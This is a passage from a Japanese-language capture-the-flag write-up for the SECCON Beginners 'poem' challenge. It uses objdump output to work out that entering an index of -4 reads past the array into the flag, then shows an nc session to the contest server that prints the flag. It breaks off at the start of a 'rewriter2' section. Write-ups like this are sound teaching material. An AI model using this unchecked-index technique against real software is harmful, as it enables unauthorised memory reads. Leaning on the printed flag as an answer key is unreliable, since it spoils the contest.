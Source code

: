 動作としては入力されたインデックスの文字列を出力するものでした。

```
$ ./poem
Number[0-4]: 1
Raindrops dance on windows, nature's lullaby.
```

この入力には負数を入れることができるため、`flag`のアドレスに調整してあげると良さそうとわかりました。
試しにobjdumpで逆アセンブルをして中身をみてみたところ、

```
$ objdump -D -M intel ./poem
(snip)

0000000000004020 <flag>:
    4020:       08 20                   or     BYTE PTR [rax],ah
        ...

0000000000004040 <poem>:
    4040:       20 20                   and    BYTE PTR [rax],ah
    4042:       00 00                   add    BYTE PTR [rax],al
    4044:       00 00                   add    BYTE PTR [rax],al
    4046:       00 00                   add    BYTE PTR [rax],al
    4048:       50                      push   rax
    4049:       20 00                   and    BYTE PTR [rax],al
    404b:       00 00                   add    BYTE PTR [rax],al
    404d:       00 00                   add    BYTE PTR [rax],al
    404f:       00 80 20 00 00 00       add    BYTE PTR [rax+0x20],al
    4055:       00 00                   add    BYTE PTR [rax],al
    4057:       00 b8 20 00 00 00       add    BYTE PTR [rax+0x20],bh
    405d:       00 00                   add    BYTE PTR [rax],al
    405f:       00 e8                   add    al,ch
    4061:       20 00                   and    BYTE PTR [rax],al
    4063:       00 00                   add    BYTE PTR [rax],al
    4065:       00 00                   add    BYTE PTR [rax],al
        ...

(snip)
```

`0x4040 - 0x4020 = 0x20`バイト分ずらしてあげると良さそうとわかりました。
ポインタ型のサイズが8バイトだったので`-4`を入力してみると、、

```
$ nc poem.beginners.seccon.games 9000
Number[0-4]: -4
ctf4b{y0u_sh0uld_v3rify_the_int3g3r_v4lu3}
```

無事flagをゲットできました。

## [pwnable] rewriter2

以下のソースコードとコンパイル済みバイナリが渡され、`win`関数を呼び出すことができるとシェルを奪取でき、flagが見れるというものでした。

